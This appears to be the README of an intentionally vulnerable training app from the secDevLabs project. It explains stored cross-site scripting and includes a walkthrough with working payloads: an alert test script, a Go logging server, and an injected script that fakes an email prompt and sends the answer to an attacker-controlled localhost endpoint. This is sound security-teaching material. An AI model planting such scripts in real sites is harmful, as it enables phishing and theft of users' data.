



# Comment-killer

<p align="center">
    
</p>

Comment-killer is a simple ReactJS app, which has a Injection (XSS) vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

# Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

<a name="Def"></a>

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws. Learn more <a href="https://owasp.org/www-community/attacks/xss/">here</a>.

<a name="Set" ></a>

## Setup

To start this intentionally **insecure application**, you will need [Docker](https://docs.docker.com/get-docker/) and [Docker Compose](https://docs.docker.com/compose/install/). After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Then simply visit [http://localhost:10007](http://localhost:10007) ! 😆

## Get to know the app 👾

To properly understand how this application works, you can follow these simple steps:

- Read the cool history behind the Memes.
- Add a new comment post.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that the comment entry is not sanitized and can be executed on a web browser. The following images show this behavior when the following text is used as an input on these fields:

```
<script>alert(1)</script>
```

Adding a new comment to a post:

<p align="center">
    
</p>

The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

#### 🔥

An attacker may abuse this flaw by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will create an email form to try and steal user credentials.

Initially, an API is needed to log all received requests and can be built in Golang as follows:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

In order to start the API, the following command can be used (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

With the API now up and running, all that is needed is the following code to show a pop-up message requesting the user's email in order to continue reading the blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

The above JavaScript code is responsible for sending a `GET` request to the attacker's API so it can be logged. In this scenario, we'll be sending requests to `localhost`.

All we need now is to paste the JavaScript code in the comments field, as shown by the following image:

<p align="center">
    
</p>

When another user access the app, the following pop-up will be shown, as we can see in the image below:

<p align="center">
    
</p>

Meanwhile, with the API up and running, we're able to receive the user's email, as shown by the next image:

<p align="center">
    
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute scripts through input fields

<a name="Sol"></a>

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
